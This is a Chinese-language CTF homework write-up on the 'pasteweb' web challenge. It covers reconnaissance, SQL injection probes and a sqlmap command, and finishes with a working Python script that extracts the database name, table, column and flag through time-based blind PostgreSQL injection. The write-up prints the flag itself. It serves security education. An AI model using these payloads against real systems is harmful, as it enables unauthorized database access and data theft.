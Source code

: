 # hw_pasteweb1

1. 首先，先偵蒐一些網站的資訊，跟隨意做一些嘗試 :
    
    a. 先搜集網站資訊，嘗試發一個 request ，可以發現網站是 使用 nginx/1.18.0 ，並建置在 Ubuntu 上面。
    
    ![截圖 2022-12-18 下午2.45.21.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%25882.45.21.png)
    
    b. 使用 dirsearch 去做目錄的爬取，首先可以看到 ./git 系列的都不能存取，error 301，看起來是被搬去其他地方。
    
    ![截圖 2022-12-18 下午2.31.23.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%25882.31.23.png)
    
    c. 嘗試去XSS，但都失敗。
    
    ![截圖 2022-12-18 下午2.45.21.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%25882.45.21.png)
    
    d. 去使用SQL injection 看一些網站返回資訊
    
    使用 `admin' or 1=1 --` 會回覆 When do you came form?
    
    ![截圖 2022-12-18 下午3.11.45.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%25883.11.45.png)
    
    `admin' or '1'='1`  會回覆 Bad hacker!
    
    ![截圖 2022-12-18 下午10.05.42.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%258810.05.42.png)
    
    大致上整理錯誤資訊，可以得到以下幾種，可以猜測這邊有 SQL injection 可以嘗試，於是開始往這個方向去研究。
    
    1. Login error
    2. Bad hacker
    3. When do you came from
    
2. 現在往 SQL injection 的方向研究，首先要知道 SQL 的種類，但 SQL 很多種，網站返回的資訊好像也不足以可以去判斷，於是上網搜尋一些做法，甚至將 sql-injection-payload-list( 如下面連結）裡面的 payload 都嘗試過一遍，但都沒什麼好的效果。後來發現這邊有個很好用的工具是 sqlmap ，於是才開始去研究使用方法，這邊一開始都直失敗，也判斷不出來種類 SQL 種類。

[https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

![截圖 2022-12-18 下午9.50.35.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-18_%25E4%25B8%258B%25E5%258D%25889.50.35.png)

1. 後來就一直在研究 SQL injection ，直到看到 OWSAP 提到  Blind_SQL_Injection

[https://owasp.org/www-community/attacks/Blind_SQL_Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)，才想到也許這邊也可以用這種方式，然後將 sqlmap 改為以下這一段指令，可以去測出 blind sql injection，他有成功給我 Postgrel SQL 的 payload，實際測試後，真的可以 sleep(5) 的時間，到這邊可以確定 SQL 是 postgreSQL。

```bash
sqlmap -u [https://pasteweb.ctf.zoolab.org](https://pasteweb.ctf.zoolab.org/) --data="POST_STRING_HERE*" --dbs --batch --technique=T -v 3
```

![截圖 2022-12-19 下午2.40.35.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258B%25E5%258D%25882.40.35.png)

1. 接下來我去研究 Postgrel SQL 的語法，我的想法是
    
    a. 湊出一段 SQL 語法可以去判斷 (x, y) 欄位字串如果是 admin ，那(x, y+1) 就很有可能是admin 的 password。
    
    b. 然後再用 time-based side channel attack，直接去爆破出 password ( 這會需要額外寫一段 payload )，這邊要先去理解 Postgrel SQL 的語法 ，不然寫不出這一段 SQL injection 的 payload
    

1. 實際開始寫的時候，參考了網路的一些做法，會發現需要先爆破出 Database_name ，然後爆破 Table_name ，然後再去爆破出 column name 才可以去取得 column 裡面的值，於是我參考它給的 code 去寫 payload 。
    
    ![截圖 2022-12-22 上午12.29.52.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-22_%25E4%25B8%258A%25E5%258D%258812.29.52.png)
    

[PayloadsAllTheThings/PostgreSQL Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-columns)

1. 於是有了以下的爆破過程，就是直接用  time-based side channel attack ，將每個字跟 SQL 裡面讀取到的值的字元一個一個的比對，並設置 timeout = 1 ，如果字元比對一樣就 sleep 1.5 s，如果不一樣就會直接試下一個字，如果有一個 timeout 出現，就代表這是我們要爆破的那個字。中間其實還是有爆出一些其他地方，及一些奇怪的東西，還有爆破到另外一個 table 是下一題的密碼，但這邊列出主要的幾個跟這題有關的爆破。
    
    
    a.先爆破出 Database name，然後爆出了 pastewebdb。
    
    ```python
    import requests
    from string import printable 
    from time import time
    
    url = 'https://pasteweb.ctf.zoolab.org/'
    Result = ""
    
    for i in range(1, 15):
        for j in printable:
            print(i, j)
            #Datebase_Name
            payload = f"select case when substr(current_database(),{i},1)='{j}' then pg_sleep(2) else pg_sleep(0) end from pg_database limit 1"
    
            #Table_name
            payload = f"select case when substring(table_name,{k},1)='{i}' then pg_sleep(2) else pg_sleep(0) end from information_schema.tables order by table_name"
    
            #FLAG
            #payload = f" select case when substring(fl4g,{i},1)='{j}' then pg_sleep(1.5) else pg_sleep(0) end from s3cr3t_t4b1e"
    
            username = f"1' ;" + payload  + "; -- -"
            current_time = int(time())
            value = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            try :
                r = requests.post(url, data=value, timeout=1)
            except : 
                print("error")
                Result += j
                break
    
        print("Answer : ", Result)
    ```
    
    b. 將 payload 修改，爆破出 Table name : s3cr3t_t4b1e 。
    
    ```python
    payload = f"select case when substring(table_name,{k},1)='{i}' then pg_sleep(2) else pg_sleep(0) end from information_schema.tables order by table_name"
    ```
    
    c. 一樣修改 payload ，爆破出 Column name : fl4g 。
    
    ```python
    payload = f"select case when substring(column_name,{k},1)='{i}' then pg_sleep(2) else pg_sleep(0) end from information_schema.columns where table_name='s3cr3t_t4b1e'  ;"
    ```
    
    d. 然後再爆破出 Column 裡面的值，就成功取得FLAG{B1inD_SqL_IiIiiNj3cT10n}。
    
    ```python
    payload = f" select case when substring(fl4g,{i},1)='{j}' then pg_sleep(1.5) else pg_sleep(0) end from s3cr3t_t4b1e"
    ```
    
    ![截圖 2022-12-22 上午1.32.54.png](hw_pasteweb1%200dddbec36c3649c4a6c162fc1870fc40/%25E6%2588%25AA%25E5%259C%2596_2022-12-22_%25E4%25B8%258A%25E5%258D%25881.32.54.png)
    

Reference : 

1. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md#postgresql-list-columns](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-columns)
2. [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/PostgreSQL Injection.md#postgresql-list-columns](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-columns)